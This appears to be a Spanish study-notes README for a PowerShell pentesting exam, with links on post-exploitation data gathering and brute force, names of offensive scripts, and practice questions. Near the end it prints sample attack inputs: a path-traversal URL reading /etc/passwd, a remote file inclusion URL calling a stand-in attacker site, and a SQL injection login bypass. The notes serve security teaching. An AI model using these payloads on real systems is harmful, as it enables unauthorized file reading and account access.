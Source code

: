 # ¿Qué información se puede recopilar dentro de un sistema?
* https://www.jesusninoc.com/2016/10/09/windows-post-exploitation-cmdlets-execution-powershell/
* https://github.com/jesusninoc/Seguridad/blob/master/Recopilar%20informaci%C3%B3n%20acerca%20de%20los%20equipos

# ¿Qué información se puede recopilar dentro de una empresa?
http://papelesdeinteligencia.com/7-maneras-de-recolectar-datos-para-tu-empresa-que-todavia-no-conoces/

# Scripts for powershell for pentesters exam
https://github.com/salu90/PSFPT
- BruteForce-Basic-Auth.ps1
- Exfiltrate.ps1
- Exploits.ps1
- Get-Registry-Passwords.ps1
- GitHub-Interactive-Shell.ps1
- Registry-Malware.ps1
- Scan-Directory-Permissions.ps1
- Scan-Network-Shares.ps1
- Simple-Server.ps1
- Transfer-File-PsRemoting.ps1

# Brute Force

## Contraseñas seguras con PowerShell
https://www.jesusninoc.com/contrasenas-seguras-con-powershell/
## Brute Force
https://www.jesusninoc.com/brute-force/
## Ataque de fuerza bruta con Burp Suite Intruder
https://www.jesusninoc.com/2016/02/23/ataque-de-fuerza-bruta-con-burp-suite-intruder/

# Preguntas posibles en examen
- Resuelve en PowerShell lo siguiente:
  - Dime si hay un antivirus instalado
  - Cómo compruebas que están funcionando los equipos de una red
  - Realiza un programa que cifre de forma sencilla
  - Simula la recuperación de un dato que se ha perdido
  - Sabes detectar impresoras en la red?, cómo?
  - Realiza un login que incorpore una función de hash
  - Realizar un sistema de copia de seguridad
  - Ver si un programa se está ejecutando viendo el nombre del producto
- ¿Cómo se llama esto?
  - http://vulnerable_host/preview.php?file=../../../../etc/passwd
  - http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
- ¿Y esto?
  - http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 
  - SELECT * FROM Users WHERE Username='1'OR '1'= '1'AND Password='1'OR '1'= '1'

